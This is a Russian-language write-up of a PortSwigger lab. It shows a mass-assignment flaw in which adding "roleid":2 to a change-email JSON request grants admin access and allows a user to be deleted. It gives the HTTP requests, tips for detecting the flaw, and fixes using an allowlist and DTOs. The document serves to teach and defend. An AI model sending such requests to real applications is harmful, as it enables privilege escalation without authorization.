




## Lab: User role can be modified in user profile

**Платформа:** PortSwigger Web Security Academy    
**Категория:** Access Control    
**Сложность:** Apprentice    
**Дата:** 2025-07-22    

---

## TL;DR
API эндпоинт обновления профиля принимает дополнительные поля
в JSON теле запроса без валидации. Добавив `"roleid":2` к запросу
смены email удалось повысить привилегии до администратора
и получить доступ к `/admin`.

---

## Описание уязвимости

Mass Assignment (массовое присваивание) — уязвимость при которой
сервер принимает и применяет все поля из тела запроса
без проверки какие из них разрешено изменять пользователю.

```
Ожидаемое поведение:
POST /my-account/change-email
{"email": "new@email.com"}
→ сервер меняет только email

Уязвимое поведение:
POST /my-account/change-email
{"email": "new@email.com", "roleid": 2}
→ сервер меняет email И roleid → повышение привилегий
```

---

## Эксплуатация

### Шаг 1 — Вход и анализ смены email

Вошла под `wiener:peter`. На странице аккаунта заполнила
форму смены email и перехватила запрос в Burp:

```http
POST /my-account/change-email HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/json

{"email":"test@test.com"}
```

Ответ сервера:

```json
{
    "username": "wiener",
    "email": "test@test.com",
    "roleid": 1
}
```

Ответ раскрывает текущий `roleid` пользователя — значение `1`.
Для доступа к `/admin` нужен `roleid: 2`.



### Шаг 2 — Добавление roleid в запрос

Отправила запрос в Burp Repeater.
Добавила поле `"roleid":2` в JSON тело запроса:

```http
POST /my-account/change-email HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/json

{"email":"test@test.com","roleid":2}
```

Ответ сервера:

```json
{
    "username": "wiener",
    "email": "test@test.com",
    "roleid": 2
}
```

Сервер принял запрос и изменил `roleid` на `2` —
привилегии повышены до администратора.



### Шаг 3 — Доступ к панели администратора

Открыла `/admin` — страница открылась.
Сервер проверил `roleid` текущего пользователя — увидел `2` — дал доступ.



### Шаг 4 — Удаление пользователя carlos

В панели нашла список пользователей → Delete напротив `carlos`.



---

## Почему сервер принял roleid

Сервер использует что-то вроде:

```python
# Уязвимый код:
def change_email(user, request_data):
    user.update(**request_data)  # применяет ВСЕ поля из запроса
    db.save(user)
```

Нет проверки какие поля разрешено изменять через этот эндпоинт.
`roleid` — внутреннее поле которое должно меняться только
через административный интерфейс, но сервер применяет его наравне с `email`.

---

## Итог

```
POST /my-account/change-email
{"email":"test@test.com"}
→ ответ содержит roleid: 1 (подсказка!)
         ↓
Добавить "roleid":2 в тело запроса
→ сервер меняет roleid без проверки
         ↓
Открыть /admin → roleid=2 → доступ разрешён
         ↓
Удалить carlos → лаба решена
```

### Как обнаружить Mass Assignment

```
1. Смотреть на ответы API — какие поля возвращаются?
   Если ответ содержит больше полей чем ты отправлял
   → возможно эти поля можно передать обратно

2. Добавлять лишние поля в запрос и смотреть на ответ:
   Поле изменилось → Mass Assignment уязвимость

3. Искать внутренние поля в ответах:
   roleid, isAdmin, role, status, verified
```

---

## Защита

```python
# УЯЗВИМО — применяет все поля из запроса:
def change_email(user_id, data):
    user = db.get_user(user_id)
    user.update(**data)  # data может содержать roleid!
    db.save(user)

# БЕЗОПАСНО — явный allowlist разрешённых полей:
ALLOWED_FIELDS = {'email'}

def change_email(user_id, data):
    user = db.get_user(user_id)
    safe_data = {k: v for k, v in data.items()
                 if k in ALLOWED_FIELDS}
    user.update(**safe_data)
    db.save(user)
```

```python
# БЕЗОПАСНО — отдельные методы для разных полей:
def change_email(user_id, email):
    user = db.get_user(user_id)
    user.email = email  # только email, ничего лишнего
    db.save(user)

def change_role(admin_id, user_id, roleid):
    if not db.get_user(admin_id).is_admin:
        raise PermissionError
    user = db.get_user(user_id)
    user.roleid = roleid
    db.save(user)
```

Дополнительно:
- Никогда не возвращать в ответах API поля
  которые пользователь не должен изменять —
  они дают подсказку атакующему
- Использовать DTO (Data Transfer Object) — отдельные
  классы для входящих данных с явными разрешёнными полями
- Проверять права при каждом изменении привилегированных полей